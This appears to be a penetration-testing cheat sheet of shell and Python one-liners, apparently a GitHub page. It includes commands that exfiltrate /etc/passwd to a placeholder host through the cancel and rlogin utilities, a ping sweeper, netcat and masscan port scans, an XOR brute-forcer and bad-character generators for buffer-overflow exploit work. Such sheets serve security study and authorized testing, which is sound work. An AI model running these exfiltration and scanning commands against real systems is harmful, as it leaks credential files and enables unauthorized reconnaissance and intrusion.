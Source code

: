 ### Cancel Data Exfiltration
```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### rlogin Data Exfiltration
```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper
```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-Forcing XOR'ed String with 1 Byte Key in Python
```bash
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings
```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

[Zerosum0x0](#https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) 

### Converting Python to Windows Executable (.py -> .exe)
```python
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with Netcat
```bash
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

### Port Scanning with Masscan
```bash
masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0
```
